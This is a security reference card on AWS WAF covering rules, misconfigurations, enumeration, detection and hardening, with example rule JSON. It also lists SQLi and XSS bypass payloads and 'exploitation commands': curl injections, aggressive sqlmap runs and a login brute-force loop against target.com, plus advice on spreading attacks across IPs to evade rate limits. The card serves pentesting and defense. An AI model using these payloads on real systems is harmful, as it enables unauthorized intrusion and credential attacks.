

#  AWS WAF Security



> **Category**: WEB APPLICATION FIREWALL

AWS WAF protects web applications from common exploits. Web ACLs contain rules that inspect HTTP requests. Understanding WAF rules is essential for both bypass techniques and proper configuration.

## Quick Stats

| Risk Level | Scope | OSI Layer | Protects |
| --- | --- | --- | --- |
| **MEDIUM** | **Regional/CF** | **L7** | **ALB/API/CF** |

## Service Overview

### Web ACLs & Rules

Web ACLs contain ordered rules that inspect requests. Rules can ALLOW, BLOCK, COUNT, or CAPTCHA. Managed rule groups provide pre-built protection against common attacks.

> Attack note: Rule ordering matters - find gaps between rules or use encoding to bypass pattern matching

### Rate-Based Rules

Automatically block IPs exceeding request thresholds. Can be based on IP, headers, or custom keys. Minimum 100 requests in 5 minutes to trigger.

> Attack note: Distribute attacks across IPs or rotate headers to stay under rate limits

## Security Risk Assessment

`██████░░░░` **5.5/10** (MEDIUM)

WAF misconfigurations can leave applications exposed to OWASP Top 10 attacks. Overly permissive rules, missing coverage, or bypassable patterns are common issues. WAF bypass is a core pentest skill.

## ⚔️ Attack Vectors

### Encoding Bypasses

- URL encoding: %27 instead of single quote
- Double URL encoding: %2527
- Unicode encoding: \\u0027
- HTML entities: &#39; or &#x27;
- Mixed case: SeLeCt, UnIoN

### Structural Bypasses

- Comment injection: SEL/**/ECT
- Whitespace variations: \\t, \\n, \\r
- Parameter pollution: id=1&id=2
- HTTP method switching: GET to POST
- Content-Type manipulation

## ⚠️ Misconfigurations

### Rule Issues

- Rules in COUNT mode instead of BLOCK
- Missing coverage for request body
- Only checking specific content types
- No rate limiting configured
- IP whitelist too broad

### Coverage Gaps

- WAF not attached to all resources
- Missing managed rule groups
- Custom rules with weak patterns
- No logging enabled
- API Gateway not protected

## 🔍 Enumeration

**List Web ACLs**
```bash
aws wafv2 list-web-acls --scope REGIONAL
```

**Get Web ACL Details**
```bash
aws wafv2 get-web-acl \\
  --name MyWebACL \\
  --scope REGIONAL \\
  --id <acl-id>
```

**List Rule Groups**
```bash
aws wafv2 list-rule-groups --scope REGIONAL
```

**Get Sampled Requests**
```bash
aws wafv2 get-sampled-requests \\
  --web-acl-arn <arn> \\
  --rule-metric-name AWS-AWSManagedRulesCommonRuleSet \\
  --scope REGIONAL \\
  --time-window StartTime=2024-01-01,EndTime=2024-01-02 \\
  --max-items 100
```

**List Resources Using ACL**
```bash
aws wafv2 list-resources-for-web-acl \\
  --web-acl-arn <arn>
```

## 💉 SQLi Bypass Examples

### Common Bypasses

- 1' OR '1'='1 → 1%27%20OR%20%271%27%3D%271
- UNION SELECT → UNI/**/ON SEL/**/ECT
- ' OR 1=1-- → %27%20OR%201%3D1--
- admin'-- → admin%27%2D%2D
- 1; DROP TABLE → 1%3B%20DROP%20TABLE

> **Pro tip:** Use sqlmap's tamper scripts: --tamper=space2comment,charencode to automatically try multiple encoding techniques.

## 🎭 XSS Bypass Examples

### Payload Variations

- <script> → <scr<script>ipt>
-  → 
- javascript: → java&#x09;script:
- <svg onload> → <svg/onload=alert(1)>
- cookie

### Context-Specific

- HTML context: <div onmouseover=alert(1)>
- JS context: ";alert(1);//
- URL context: javascript:alert(1)
- CSS context: expression(alert(1))
- SVG context: <svg><script>alert(1)</script>

## 🛡️ Detection

### WAF Logs (CloudWatch/S3/Kinesis)

- BLOCK actions - attack attempts
- COUNT actions - potential bypass testing
- Request patterns and sources
- Rule matches and actions
- Sampled request analysis

### Indicators of Bypass Attempts

- Multiple encoding variations
- Unusual User-Agent strings
- High request rate from single IP
- Parameter pollution attempts
- Requests with null bytes or unicode

## Exploitation Commands

**Test SQLi with Encoding**
```bash
curl -X GET "https://target.com/api?id=1%27%20OR%20%271%27%3D%271" \\
  -H "User-Agent: Mozilla/5.0"
```

**Test XSS with Different Contexts**
```bash
curl -X POST "https://target.com/search" \\
  -d "q=<svg/onload=alert(1)>" \\
  -H "Content-Type: application/x-www-form-urlencoded"
```

**SQLMap with Tamper Scripts**
```bash
sqlmap -u "https://target.com/api?id=1" \\
  --tamper=space2comment,charencode,randomcase \\
  --random-agent --level=5 --risk=3
```

**Test Rate Limiting**
```bash
for i in {1..200}; do
  curl -s "https://target.com/login" \\
    -d "user=test&pass=test$i" &
done; wait
```

**Check WAF Fingerprint**
```bash
wafw00f https://target.com
# or
nmap -p443 --script http-waf-detect target.com
```

**Test HTTP Method Bypass**
```bash
for method in GET POST PUT PATCH DELETE OPTIONS HEAD; do
  echo "=== $method ==="
  curl -X $method "https://target.com/api?id=1' OR '1'='1"
done
```

## Policy Examples

### ❌ Weak - Only Checking Query String

```json
{
  "Name": "SQLiProtection",
  "Statement": {
    "SqliMatchStatement": {
      "FieldToMatch": {
        "QueryString": {}
      },
      "TextTransformations": [{
        "Priority": 0,
        "Type": "NONE"
      }]
    }
  },
  "Action": { "Block": {} }
}
```

*Only checks query string, no transformations - easily bypassed*

### ✅ Strong - Multiple Fields & Transformations

```json
{
  "Name": "SQLiProtection",
  "Statement": {
    "SqliMatchStatement": {
      "FieldToMatch": { "Body": {} },
      "TextTransformations": [
        {"Priority": 0, "Type": "URL_DECODE"},
        {"Priority": 1, "Type": "HTML_ENTITY_DECODE"},
        {"Priority": 2, "Type": "LOWERCASE"}
      ]
    }
  },
  "Action": { "Block": {} }
}
```

*Checks body with multiple decode transformations*

### ❌ Weak - Rate Limit Too High

```json
{
  "Name": "RateLimit",
  "Statement": {
    "RateBasedStatement": {
      "Limit": 10000,
      "AggregateKeyType": "IP"
    }
  },
  "Action": { "Block": {} }
}
```

*10,000 requests/5min is too high - won't stop brute force*

### ✅ Strong - Aggressive Rate Limit

```json
{
  "Name": "LoginRateLimit",
  "Statement": {
    "RateBasedStatement": {
      "Limit": 100,
      "AggregateKeyType": "FORWARDED_IP",
      "ScopeDownStatement": {
        "ByteMatchStatement": {
          "FieldToMatch": {"UriPath": {}},
          "SearchString": "/login"
        }
      }
    }
  }
}
```

*100 req/5min on login endpoint with X-Forwarded-For support*

## Defense Recommendations

### 📦 Use AWS Managed Rule Groups

Enable AWSManagedRulesCommonRuleSet, SQLiRuleSet, and KnownBadInputsRuleSet.

```bash
aws wafv2 update-web-acl --name MyACL \\
  --rules file://managed-rules.json
```

### 🔄 Apply Text Transformations

Use URL_DECODE, HTML_ENTITY_DECODE, LOWERCASE, and COMPRESS_WHITE_SPACE.

### 📊 Enable WAF Logging

Send logs to CloudWatch, S3, or Kinesis for analysis and alerting.

```bash
aws wafv2 put-logging-configuration \\
  --logging-configuration ResourceArn=<acl>,LogDestinationConfigs=[<s3-arn>]
```

### ⚡ Configure Rate Limiting

Set aggressive limits on sensitive endpoints like /login, /api, /admin.

### 🎯 Check All Request Components

Inspect headers, body, query string, URI path, and cookies - not just query string.

### 🧪 Regular WAF Testing

Use tools like SQLMap, Burp Suite, and custom payloads to test WAF effectiveness.

---

*AWS WAF Security Card*

*Always obtain proper authorization before testing*
